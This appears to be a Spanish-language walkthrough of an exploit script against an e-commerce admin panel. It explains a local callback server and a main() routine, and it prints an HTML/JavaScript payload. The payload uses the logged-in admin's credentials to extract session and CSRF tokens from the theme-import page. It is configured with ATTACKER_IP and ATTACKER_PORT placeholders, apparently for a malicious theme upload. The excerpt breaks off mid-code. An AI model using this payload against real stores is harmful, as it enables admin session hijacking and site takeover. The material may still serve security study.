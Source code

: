 Levanta un servidor HTTP local en el puerto `5000`:

- Usa `CustomRequestHandler` como manejador personalizado para registrar las solicitudes entrantes.
- El servidor permanece activo hasta que se establezca `stop_event`.****

### **4. Función `main()`**

Esta es la función principal del script, donde ocurre la lógica del exploit:

####  Configuración inicial**

- Lee el archivo `exploit.html` y reemplaza marcadores de posición (`BASE_URL`, `ATTACKER_IP`, etc.) con los valores proporcionados por el usuario.
	- exploit.html:
```html
<!DOCTYPE html>
<html lang="en">

<head>
    <meta charset="UTF-8">
    <meta viewport="width=device-width, initial-scale=1.0">
    <title>Exploit</title>
</head>

<body>
    <script>
        const baseUrl = BASE_URL;
        const path = ADMIN_PATH;
        const httpServerIp = ATTACKER_IP;
        const httpServerPort = ATTACKER_PORT;
        const fileNameOfTheme = FILE_NAME;

        async function fetchTokenFromHTML() {
            const url = `${baseUrl}/${path}/index.php/improve/design/themes/import`;
            try {
                const response = await fetch(url, {
                    method: 'GET',
                    credentials: 'include',
                    redirect: 'follow'
                });
                if (!response.ok) throw new Error('Failed to fetch the page for token extraction. Status: ' + response.status);

                const htmlText = await response.text();
                const parser = new DOMParser();
                const doc = parser.parseFromString(htmlText, "text/html");

                const anchor = doc.querySelector('a.btn.btn-lg.btn-outline-danger.mr-3');
                const href = anchor ? anchor.getAttribute('href') : null;
                const match = href ? href.match(/_token=([^&]+)/) : null;
                const token = match ? match[1] : null;
                if (!token) throw new Error('Token not found in anchor tag href.');

                console.log('Extracted Token from HTML:', token);
                return token;
            } catch (error) {
                console.error('Error fetching token from HTML content:', error);
                return null;
            }
        }

        async function fetchCSRFToken(token) {
            const csrfUrl = `${baseUrl}/${path}/index.php/improve/design/themes/import?_token=${token}`;
            try {
```